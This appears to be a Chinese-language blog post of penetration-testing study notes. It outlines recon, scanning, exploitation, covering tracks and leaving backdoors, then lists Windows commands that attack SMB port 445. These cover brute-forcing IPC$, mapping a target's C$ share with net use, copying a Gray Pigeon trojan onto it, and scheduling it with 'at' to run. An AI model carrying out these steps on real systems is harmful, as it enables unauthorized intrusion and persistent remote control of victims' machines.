 ```yaml
---
layout: post
title: 渗透测试简单流程
date: 2020-08-16
categories:
- Security
---
```

0. 获得授权(对方机构)

1. 信息收集

   * nslookup
   * whois

2. 扫描漏洞

   * nmap --> IP范围 端口 发布软件 什么网站 
   * scan port
   * 高级扫描: 如IIS漏洞  win2003-IIS6.0  win2008-IIS7.0
     * 扫描网站漏洞

3. 漏洞利用

4. 提权(shell环境, 桌面环境)

   ****

5. 毁尸灭迹

6. 留后门

   ****

7. 渗透测试报告

   

**手工测试端口号开放:**

> `telnet IP 端口号`

**445漏洞利用之IPC$**

1. scanport扫描445端口

2. 漏洞利用之IPC$：
   进行暴力破解：NTscan

3. `net use f: \\10.1.1.2\share 123.com /user:administrator`  把10.1.1.2的共享文件夹映射到本地F盘

   `net use f: /del` 删除映射

   `net use * /del` 删除全部映射

   `net use f: \\10.1.1.2\c$ 密码 /user:用户` 把10.1.1.2 的C盘映射成本地F盘

   `net use f: \\10.1.1.2\ipc$ 密码 /user:用户` 把10.1.1.2的空会话映射成本地F盘

* 以上命令行的驱动映射都是临时映射, 想要持久化映射则需要  `我的电脑右键-->映射网络驱动器-->登录时重新连接-->使用其他用户连接`

**暴力破解系统密码之445**

`net time \\10.1.1.2`(需要先映射IPC$)  -- 查看目标计算机的时间

`at \\10.1.1.2  时间 "c:\...\xxx.exe"`  设定计划任务

`at \\10.1.1.2`  查看目标的计划任务

4. 制作木马
   利用光盘上的灰鸽子软件

5. 植入木马（留后门）
   copy d:\heihei.exe \\10.1.1.2\c$

6. 设置计划任务自动执行木马：
   net time \\10.1.1.2
   at \\10.1.1.2 11:11 "c:\heihei.exe"

7. 等待肉鸡上线

